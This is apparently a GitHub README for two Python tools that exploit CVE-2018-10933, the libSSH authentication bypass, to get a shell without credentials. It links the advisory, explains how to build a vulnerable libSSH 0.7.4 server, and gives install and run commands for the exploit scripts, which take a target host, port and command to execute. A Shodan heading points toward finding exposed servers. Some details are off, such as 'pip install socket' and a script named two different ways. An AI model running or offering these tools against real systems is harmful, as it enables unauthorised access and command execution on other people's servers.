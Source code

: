 # libSSH-Authentication-Bypass
Spawn to shell without any credentials by using CVE-2018-10933

Information about CVE-2018-10933 by libSSH : https://www.libssh.org/security/advisories/CVE-2018-10933.txt

Bugfix Release by libSSH : https://www.libssh.org/2018/10/16/libssh-0-8-4-and-0-7-6-security-and-bugfix-release/

## Create a vulnerable ssh server:

Download, uncompress and build the vulnerable libSSH Version : https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz

And then compile and run libSSH on your own server with ssh.

```
Dir : /libssh-0.7.4/build/examples/samplesshd-cb
./samplesshd-cb --dsakey==yourdsakey 127.0.0.1 --port=2222
```


## libSSH Authentication Bypass with two different tools
**If you have got any fake ssh keys use the second bypasswithfakekey.py**

**libsshauthbypass.py**
```
pip install paramiko==2.0.8
If 2.0.8 doesn't works try : pip install paramiko==2.4.2

pip install socket

python libsshauthbypass.py [host] [port]
```
**bypasswithkey.py**
```
pip install paramiko==2.0.8
If 2.0.8 doesn't works try : pip install paramiko==2.4.2

pip install socket

python bypasswithkey.py [host] [port] [username] [fakekey] [command]
```



## Shodan.io libSSH

![](https://i.imgur.com/SWEfcGR.png)
